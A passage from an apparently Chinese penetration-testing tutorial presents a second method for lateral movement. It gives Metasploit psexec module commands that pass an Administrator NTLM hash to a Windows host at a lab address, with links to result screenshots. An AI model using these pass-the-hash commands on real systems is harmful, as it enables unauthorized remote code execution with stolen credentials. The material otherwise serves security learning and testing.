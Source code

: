 [![](assets/1706496056-ba15bedb78aea5a4afc7c4b336c2b765.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172305511-406542361.png)

#### 法二：msf 的 psexec

```plain
search psexec
use exploit/windows/smb/psexec
show option
set rhosts 192.168.126.10
set SMBDomain MAO
set SMBUSER Administrator
set SMBpass 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab   # LM:NTLM
exploit
```

[![](assets/1706496056-c415c0869bc50ada03af1dddd070746a.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172307165-1816188126.png)
